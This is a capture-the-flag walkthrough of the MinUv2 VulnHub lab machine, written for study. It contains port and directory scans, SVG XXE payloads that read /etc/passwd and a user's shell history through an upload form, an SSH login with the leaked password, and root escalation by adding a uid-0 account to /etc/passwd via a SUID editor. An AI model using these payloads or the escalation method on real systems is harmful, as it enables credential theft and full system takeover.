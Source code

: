 MinUv2

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
[+] Contente Discovery - searching for a specific file .html
[+] SVG exploitation with XXE

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Scan Results

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Nmap scan report for 192.168.56.110
Host is up (0.00037s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.0 (protocol 2.0)
| ssh-hostkey: 
|   3072 82:33:25:61:27:97:ea:4a:49:f5:76:a3:33:1c:ae:2b (RSA)
|   256 ed:ca:f6:b9:b5:39:32:89:d0:a3:36:94:82:04:4a:e8 (ECDSA)
|_  256 26:79:15:2e:be:93:02:41:04:c9:ea:e8:05:16:d1:83 (ED25519)
3306/tcp open  mysql?
| fingerprint-strings: 
|   GenericLines: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain
|     Transfer-Encoding: chunked
|     Request
|   GetRequest, HTTPOptions: 
|     HTTP/1.0 404 Not Found
|     X-Powered-By: Kemal
|     Content-Type: text/html
|     <!DOCTYPE html>
|     <html>
|     <head>
|     <style type="text/css">
|     body { text-align:center;font-family:helvetica,arial;font-size:22px;
|     color:#888;margin:20px}
|     max-width: 579px; width: 100%; }
|     {margin:0 auto;width:500px;text-align:left}
|     </style>
|     </head>
|     <body>
|     <h2>Kemal doesn't know this way.</h2>
|_    <svg id="svg" version="1.1" width="400" height="400" viewBox="0 0 400 400" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" ><g id="svgg"><path id="path0" d="M262.800 99.200 L 262.800 150.400 265.461 150.400 L 268.121 150.400 267.864 144.300 C 267.722 140.945,267.510 120.110,267.391 98.000 C 267.273 75.890,267.074 55.595,266.948 52.900 L 266.719 48.000 264.760 48.000 L 262.800 48.000 262.800 99.200 M160.800 290.800 C 160.800 291.301,161.224 291.301,162.000
|_mysql-info: ERROR: Script execution failed (use -d to debug)
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Dirb http://192.68.56.110:3306

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
root@setrus:~# dirb http://192.168.56.110:3306 -X .html


-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Tue Nov  5 09:22:57 2019
URL_BASE: http://192.168.56.110:3306/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt
EXTENSIONS_LIST: (.html) | (.html) [NUM = 1]

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://192.168.56.110:3306/ ----
+ http://192.168.56.110:3306/upload.html (CODE:200|SIZE:908)                   
                                                                               
-
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


We can upload a SVG file
![Alt Tag](https://raw.githubusercontent.com/setrus/VulnHub/master/MinU/min1.png)

SVG XXE AttacK
https://insinuator.net/2015/03/xxe-injection-in-apache-batik-library-cve-2015-0250/


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
root@setrus:~# cat file.svg 
<?xml version="1.0" standalone="yes"?><!DOCTYPE ernw [ <!ENTITY xxe SYSTEM "file:///etc/passwd" > ]><svg width="500px" height="40px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">&xxe;</svg>
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Uploading the file to the server and we get the content of /etc/passwd

![Alt Tag](https://raw.githubusercontent.com/setrus/VulnHub/master/MinU/min2.png)


Retrieving employee .ash_history

Payload:


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
root@setrus:~# cat getConent.svg 
<?xml version="1.0" standalone="yes"?><!DOCTYPE ernw [ <!ENTITY xxe SYSTEM "file:///home/employee/.ash_history" > ]><svg width="500px" height="40px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">&xxe;</svg>
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


After upoading we get the password

![Alt Tag](https://raw.githubusercontent.com/setrus/VulnHub/master/MinU/min3.png)

Connecting to the server:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
root@setrus:~# ssh employee@192.168.56.110
The authenticity of host '192.168.56.110 (192.168.56.110)' can't be established.
ECDSA key fingerprint is SHA256:yDEwMAaye9gQ8q+xTLQxriV2ww9YRUYoGqvsqtXbskI.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '192.168.56.110' (ECDSA) to the list of known hosts.
employee@192.168.56.110's password: 
        _                   ____  
  /\/\ (_)_ __  /\ /\__   _|___ \ 
 /    \| | '_ \/ / \ \ \ / / __) |
/ /\/\ \ | | | \ \_/ /\ V / / __/ 
\/    \/_|_| |_|\___/  \_/ |_____|


minuv2:~$ id
uid=1000(employee) gid=1000(employee) groups=1000(employee)

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Privilege Escalation

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
minuv2:~$ find / -perm -u=s -type f 2>/dev/null
/usr/bin/micro
/bin/bbsuid
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


We are going to use micro (editor) to get root on the system
This is basic privilege escalation with editor. In ordet to escalate the privileges we edit /etc/passwd by adding a user:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
root@setrus:~# openssl passwd -1 -salt SALT admin123
$1$SALT$bvxkiSQK0rSue1A6i7lUj0



~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Create a record in /etc/passwd and add the following user into it:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
setrus:$1$SALT$bvxkiSQK0rSue1A6i7lUj0:0:0:root:root:/bin/ashh
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Opening /etc/passwd with micro

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
minuv2:~$ cat /etc/passwd | micro

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Adding the user test into /etc/passwd

![Alt Tag](https://raw.githubusercontent.com/setrus/VulnHub/master/MinU/min4.png)

Privilege escalation to root

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
minuv2:~$ su setrus
Password: 
minuv2:/home/employee# id
uid=0(root) gid=0(root) groups=0(root)
minuv2:/home/employee# cd /root
minuv2:~# ls
flag.txt
minuv2:~# cat flag.txt
        _                   ____  
  /\/\ (_)_ __  /\ /\__   _|___ \ 
 /    \| | '_ \/ / \ \ \ / / __) |
/ /\/\ \ | | | \ \_/ /\ V / / __/ 
\/    \/_|_| |_|\___/  \_/ |_____|

# You got r00t!

 flag{6d696e75326973617765736f6d65}

# I hope you had fun hacking this box, I tried to design this VM to be (a bit) different
# by having newer or not-so-common technologies and a minumal linux install.
#
# Please don't post the content below on Social Networks to let others do the challenge.
#
# As you know by now, the entry point is an XXE vulnerability that can be exploited by
# modifying an image. After that you can enumerate a user and the linux version to know
# that it uses a different file in its home dir.
# To read this you used a suspicious file permission on certain text editor.
# At least that's how it was planned ;)
# Let me know if you got here using another method!
#
# contact@8bitsec.io
# @_8bitsec

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

